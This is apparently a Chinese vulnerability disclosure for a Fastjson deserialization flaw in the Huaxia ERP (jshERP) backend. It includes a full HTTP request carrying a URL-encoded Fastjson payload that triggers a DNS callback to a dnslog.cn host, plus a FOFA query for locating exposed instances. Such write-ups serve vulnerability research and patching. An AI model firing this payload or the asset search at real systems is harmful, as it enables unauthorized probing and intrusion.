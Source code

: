 #### 影响范围

华夏ERP

#### 漏洞概述

华夏ERP后台Fastjson命令执行

#### 漏洞复现

华夏ERP引用了fastjson，版本为1.2.55，可以通过fastjson进行深入利用

![erp](img/erp.png)

通过查看数据包可以发现漏洞点位于search参数 ：

```
GET /jshERP-boot/depotHead/list?_t=1692429012&search=%7b%22%40%74%79%70%65%22%3a%22%6a%61%76%61%2e%6e%65%74%2e%49%6e%65%74%34%41%64%64%72%65%73%73%22%2c%22%76%61%6c%22%3a%22%36%70%74%34%75%74%2e%64%6e%73%6c%6f%67%2e%63%6e%22%7d%20 HTTP/1.1
Host: x.x.x.x.
Accept: application/json, text/plain, */*
X-Access-Token: c7e52ae41196412aa0f751c9bfde838b_63
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![dns](img/dns.png)

DNS端成功接受到请求：

![dns1](img/dns1.png)

#### 资产测绘

FOFA：
```
"jshERP-boot"
```

















